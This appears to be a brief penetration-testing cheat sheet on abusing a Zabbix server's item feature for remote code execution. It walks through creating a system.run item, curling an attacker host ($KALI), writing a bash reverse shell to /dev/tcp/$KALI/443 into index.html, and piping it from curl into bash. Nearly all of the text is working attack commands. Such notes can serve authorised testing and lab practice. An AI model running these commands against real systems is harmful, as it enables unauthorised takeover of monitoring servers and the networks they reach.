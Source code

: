 https://blog.zabbix.com/zabbix-remote-commands/7500/
[[Python#Server]]
Configuration > Hosts > $Hostname > Configuration > Items > Create Item
```
system.run[curl $KALI,nowait]
```
Click `Test`, then `Get value`, check listener.
```bash - kali
echo '/bin/bash -c "bash -i >& /dev/tcp/$KALI/443 0>&1"' > index.html
```
```
system.run[curl $KALI|bash,nowait]
```
